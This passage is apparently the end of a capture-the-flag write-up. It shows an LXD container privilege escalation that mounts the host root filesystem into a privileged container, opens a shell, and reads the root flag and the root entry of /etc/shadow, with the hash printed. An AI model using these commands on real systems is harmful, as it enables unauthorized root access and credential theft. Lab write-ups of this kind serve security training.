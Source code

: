 ```
$ lxc init voidlinux noraj -c security.privileged=true
$ lxc list
$ lxc config device add noraj host-root disk source=/ path=/mnt/root recursive=true
```

Execute the container:

```
$ lxc start noraj
$ lxc exec noraj /bin/sh
$ cd /mnt/root
```

Loot:

```
# cat /mnt/root/root/root.txt
3b89a121fa4338f7835fedb1f62b8cdc
# cat /mnt/root/etc/shadow | grep root
root:$6$86Nxy4plrFeu0w4C$IfFB5j7BEbjBrUOtkmxyfUZ0lnNIxAcFn3meuvjGqFPSIogXynKx9FU1w3XJIC60rvwuKcg6feaeBqcNWMO0H/:18429:0:99999:7:::
```

[nmap]:https://inventory.raw.pm/tools.html#Nmap
[ffuf]:https://inventory.raw.pm/tools.html#ffuf
[pwncat]:https://inventory.raw.pm/tools.html#pwncat
[linpeas]:https://inventory.raw.pm/tools.html#PEASS
